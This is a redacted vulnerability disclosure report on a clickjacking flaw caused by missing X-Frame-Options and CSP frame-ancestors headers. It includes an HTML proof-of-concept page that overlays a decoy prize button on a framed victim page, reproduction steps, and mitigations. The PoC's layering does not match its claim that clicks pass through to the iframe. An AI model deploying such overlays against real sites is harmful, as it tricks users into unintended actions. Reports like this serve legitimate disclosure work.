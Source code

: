 
```
## Vulnerability Title: ClickJacking Vulnerability on [REDACTED]

---

### Vulnerability Details:
- **Endpoint**: REDACTED
- **Date**: 18 September 2024
- **Type**: ClickJacking  
- **Severity**: Medium
- **Impact**: Attackers can create an invisible iframe overlay of the affected page, tricking users into clicking buttons or links that perform actions on their behalf. This could result in unauthorized actions, data exposure, or account compromises.

### Summary:
The webpage at REDACTED is vulnerable to a ClickJacking attack. ClickJacking is a technique that tricks users into clicking something different from what they perceive, potentially leading to unintended actions such as account hijacking or the execution of malicious tasks.

### Reason:
- The page does not have an appropriate HTTP security header to prevent ClickJacking, such as the `X-Frame-Options` or `Content-Security-Policy` headers that would block it from being embedded in iframes.

---

### Steps to Reproduce:
1. Create an HTML page that embeds REDACTED using an `<iframe>` tag:

   ```html
   <!DOCTYPE html>
   <html>
      <head>
         <title>Clickjacking PoC</title>
         <style>
            iframe {
                opacity: 0.9;
                position: absolute;
                top: 50px;
                left: 50px;
                width: 60%;
                height: 100%;
                z-index: 99;
            }

            input[type="button"] {
                position: absolute;
                top: 233px; /* Adjust to place on top of the iframe */
                left: 180px; /* Adjust to place on top of the iframe */
                z-index: 100; /* This will keep the button above the iframe */
                font-size: 20px;
                padding: 10px 200px;
            }
         </style>
      </head>
      <body>
         <input type=button value="Click here to Win Prize">
         <iframe src="REDACTED"></iframe>
      </body>
   </html>
   ```

2. Host the HTML page on a separate domain.
3. Open the hosted HTML file and observe how the victim page is embedded.
4. Click the button, and the click event will be transferred to the underlying iframe, causing an unintended action on the victim's site.

---

### Mitigation:
- Implement the `X-Frame-Options` header with the value `DENY` or `SAMEORIGIN` to prevent the page from being embedded in iframes.
- Alternatively, implement a `Content-Security-Policy` header with the `frame-ancestors` directive set to `'self'` to restrict which domains can embed the page.
```

This markdown report is redacted and formatted for submission.
